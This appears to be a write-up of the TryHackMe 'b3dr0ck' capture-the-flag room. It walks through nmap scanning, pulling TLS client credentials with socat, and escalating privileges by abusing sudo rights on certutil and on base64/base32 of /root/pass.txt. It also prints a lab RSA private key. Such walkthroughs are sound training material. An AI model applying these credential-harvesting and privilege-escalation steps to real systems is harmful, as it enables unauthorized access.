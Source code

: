 ```yaml
---

title: Walkthrough - b3dr0ck
published: true
---
```


Tags: CTF, TLS, socat, sockets.
Description: Server trouble in Bedrock.
Difficulty: Easy
URL: [https://tryhackme.com/room/b3dr0ck](https://tryhackme.com/room/b3dr0ck)

* * *

## Notes

> Barney is setting up the ABC webserver, and trying to use TLS certs to secure connections, but he's having trouble. Here's what we know...
> - He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
> - There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
> - There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
> - Can you find all the Easter eggs?

Step one perform initial nmap scan `sudo nmap -Pn -sS -T4 -p- 10.10.77.166 -vvv` then enumerate further `sudo nmap -sC -sV -sT -Pn -O 10.10.77.166 -p22,80,4040,9009,54321`

```
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 1a:c7:00:71:b6:65:f5:82:d8:24:80:72:48:ad:99:6e (RSA)
|   256 3a:b5:25:2e:ea:2b:44:58:24:55:ef:82:ce:e0:ba:eb (ECDSA)
|_  256 cf:10:02:8e:96:d3:24:ad:ae:7d:d1:5a:0d:c4:86:ac (ED25519)
80/tcp    open  http         nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://10.10.77.166:4040/
|_http-server-header: nginx/1.18.0 (Ubuntu)
4040/tcp  open  ssl/yo-main?
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     <h1>Welcome to ABC!</h1>
|     <p>Abbadabba Broadcasting Compandy</p>
|     <p>We're in the process of building a website! Can you believe this technology exists in bedrock?!?</p>
|     <p>Barney is helping to setup the server, and he said this info was important...</p>
|     <pre>
|     Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
|     Bamm Bamm tried to setup a sql database, but I don't see it running.
|     Looks like it started something else, but I'm not sure how to turn it off...
|     said it was from the toilet and OVER 9000!
|_    Need to try and secure
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2022-08-30T15:55:13
|_Not valid after:  2023-08-30T15:55:13
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
9009/tcp  open  pichat?
| fingerprint-strings:
|   NULL:
 __          __  _                            _                   ____   _____
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|

|_    What are you looking for?
54321/tcp open  ssl/unknown
```

Port 9009 we can ask for a cert and a private key and it will be given. The service is the TCP socket that was listening with the simple service for us to retrieve the TLS credential files. Now we have to find the other TCP (TLS) helper service listening for authorized connections using these files we obtained.

Going back into the 9009 service and asking for help gets us another hint using this command we can connect to the service on 54321. `socat stdio ssl:10.10.77.166:54321,cert=9009.cert,key=9009.rsa,verify=0`

```

 __     __   _     _             _____        _     _             _____        _
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)



Welcome: 'Barney Rubble' is authorized.
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
```

* * * 

## What is the barney.txt flag?

We can SSH into the server with the above credentials and get barneys flag.

![](/assets/b3dr0ck01.png)

```
barney@b3dr0ck:~$ sudo -l
[sudo] password for barney:
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
```

```
barney@b3dr0ck:~$ sudo /usr/bin/certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]

barney@b3dr0ck:~$ sudo /usr/bin/certutil ls

Current Cert List: (/usr/share/abc/certs)
------------------
total 56
drwxrwxr-x 2 root root 4096 Apr 30 21:54 .
drwxrwxr-x 8 root root 4096 Apr 29 04:30 ..
-rw-r----- 1 root root  972 Aug 30 15:55 barney.certificate.pem
-rw-r----- 1 root root 1674 Aug 30 15:55 barney.clientKey.pem
-rw-r----- 1 root root  894 Aug 30 15:55 barney.csr.pem
-rw-r----- 1 root root 1678 Aug 30 15:55 barney.serviceKey.pem
-rw-r----- 1 root root  976 Aug 30 15:55 fred.certificate.pem
-rw-r----- 1 root root 1674 Aug 30 15:55 fred.clientKey.pem
-rw-r----- 1 root root  898 Aug 30 15:55 fred.csr.pem
-rw-r----- 1 root root 1678 Aug 30 15:55 fred.serviceKey.pem
```

```
sudo /usr/bin/certutil fred fredflinstone
Generating credentials for user: fred (fredflinstone)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA6iiIBfgI4xvK3xVnhO1RmhM1hxjc/LDL8S3IN8RcnKvf9qiR
9NAOibBqHbQoYTWDHezR3oCWwEdU7EpLXiiD//qKoo0/+61mRnHXz8w8x5zYc5BT
aVN93AEzgJupfcOCR0fhTEfBzNQ8TfNHI59xQY8/R2prVJbD3QBiEmeNqt4bk8MF
MxaZGW02ZthkRig5VwSun/8WuJO2jSUHmPaetAoucdKnrg1KiYVeT2D3mayY15MX
vFz2Kd4n5j4cJj7hkTCWKtWUG4FKLyp92SRXvtszMsJtf/yEaUTVGDU7lLd1SIwM
OuBNR0Se2/xD2tpZqYLi5GUoDa9XglKqyl+A5QIDAQABAoIBADQbgOmTIKcpcCPk
p3y1MwuOasL9jW/OCBRLk9qVH+bdeKFzMcfA5PtO/s5NYQ8A0YS/RpS1GNcBCKzs
e4kgiv9TybYSqMJg+/mBK/1Z/cyN4r0UyPsPUVq8CbH88eLCtyMVo9VNwprKQAE4
ugP7X0Cvl+1UiT3xrvRnOWvPD3+OMKvbMX46/AmmGs9LLpyv0vOKj1q3yA3tKZSk
El5vXB80oke05h18tvBpPFGkoJPnUUkOjKCsx/bF4arEzLSpRDIMbBwf4SGYPfk3
VBLDgW539CUPkOLQjDP8cNrUYW3gVREITGuFguCLbWJ//Gj6wO2udAb5eo6pv7p0
U+KAnqECgYEA9vCydahMcWXDqQJH7AMOysuNhMMpGDnzpZTclMHKF0qyCS0NdiJp
cZniiQ3hC7JE3Dosl8CfItMFie/1UbUb0SEWDLPe8mGAOd8XltNKiJjFna6TEc+1
gbkuO+A7Zo1yjoYFO/9KCRBt/YT5b5GhKXet7KI8IOTVQAwPDEVF1OcCgYEA8r/I
2T3lo55HmIhErOzDfw5jT/dkVt0um/Y3wUuy36AZEUBucoWNTR7RF1jLStLnk1KO
JCg7f00N1NuhRQKD8cQ1iA0CwbffpkOfhK/GoykCTK/K/P+YDfugjdtXkC3bG4lr
MZ9ltN8ZyoWJ8KKwzJ+oRqDaOJZzU6G5v4p/dlMCgYBCcqRi2qWvQeXzfYSi8nOx
iDKNjgJp3XY9kSAF+1uJBvV/WJsttbbP9cuqe4yaHB9Bb3n+X7uyoDv2URafJO/W
R2PqiSAt8qSRbgGn+TUuKoXKl2ZFvbGmtZDGVeFGCDvSNCgGa/ydEcm3FWgVaIeI
ZAbuDP3HECx97oDCGYXf8wKBgQDXPkUak+7OQOedEZ9Lcfj67UgUPPnEqATPF+hi
RfwKnAv+JxKIC3G6Y0vllr9TzmS2VephlycCftF333NFHLDgLCmHRHogSSlPZQDK
B45rWE6IrwufgAdUxrybbFVdK7vv086vxnXJhlV5JSWlsKxyFFOCpNg6evUxv+JT
O7w/rwKBgHn/eV2jiqJISerDABd7RcHhIClNcNZJsgVm5Vq26OnMwRDeQuu9yhux
QlQPJnT24MF1lZtWLGMyCfHcULC6pUzNMVH42v8SOxghmUpSpxbuRhBWDhPvwLgh
G4sf3uOyIl5n/X+CB5LKK4si8+cbuiX5AGqfKE328PlhsdgnLtO7
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIICoTCCAYkCAjA5MA0GCSqGSIb3DQEBCwUAMBQxEjAQBgNVBAMMCWxvY2FsaG9z
dDAeFw0yMjA4MzAxNjU2MjVaFw0yMjA4MzExNjU2MjVaMBgxFjAUBgNVBAMMDWZy
ZWRmbGluc3RvbmUwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDqKIgF
+AjjG8rfFWeE7VGaEzWHGNz8sMvxLcg3xFycq9/2qJH00A6JsGodtChhNYMd7NHe
gJbAR1TsSkteKIP/+oqijT/7rWZGcdfPzDzHnNhzkFNpU33cATOAm6l9w4JHR+FM
R8HM1DxN80cjn3FBjz9HamtUlsPdAGISZ42q3huTwwUzFpkZbTZm2GRGKDlXBK6f
/xa4k7aNJQeY9p60Ci5x0qeuDUqJhV5PYPeZrJjXkxe8XPYp3ifmPhwmPuGRMJYq
1ZQbgUovKn3ZJFe+2zMywm1//IRpRNUYNTuUt3VIjAw64E1HRJ7b/EPa2lmpguLk
ZSgNr1eCUqrKX4DlAgMBAAEwDQYJKoZIhvcNAQELBQADggEBAHO163Qf3drbAeD6
bESefzUllv1Cqgs5vo/Ku4TuiZLAnpHnL9HUHaE29V/3vqJXyc/vzxxdBXqgjfq5
J1letQ5U56D0AJJhH114hh4RKe4EHn83Bl9E/AZ9hETTpDQ3N4a9sDs2/4B/hl8U
ZB3nzAnZQsESCjUWInjiqq8m6HoluJY8lO24jJ007Hbgw5+BGj496niufOvOf2df
8AX6P66idebbFgjLiM5rmo5hFQW0kBiEJy0b+E/nUGtJvabgePHBoQ4BC9NjaqIH
3+HVMnjmFUmN1/Sy3cEz0qWrmwFFQo+0VVi6Lx4a8EHck241VJ0+K7zLVysDgvov
mBJmhsM=
-----END CERTIFICATE-----
```

* * * 

## What is fred's password?

- We can use the above certs to socat into the 54321 and get freds password.

* * * 

## What is the fred.txt flag?

![](/assets/b3dr0ck02.png)

* * * 

## What is the root.txt flag?

```
fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

Decode from base64 to base32 to md5 and throw it at crackstation to get root password then su

![](/assets/b3dr0ck03.png)

* * * 
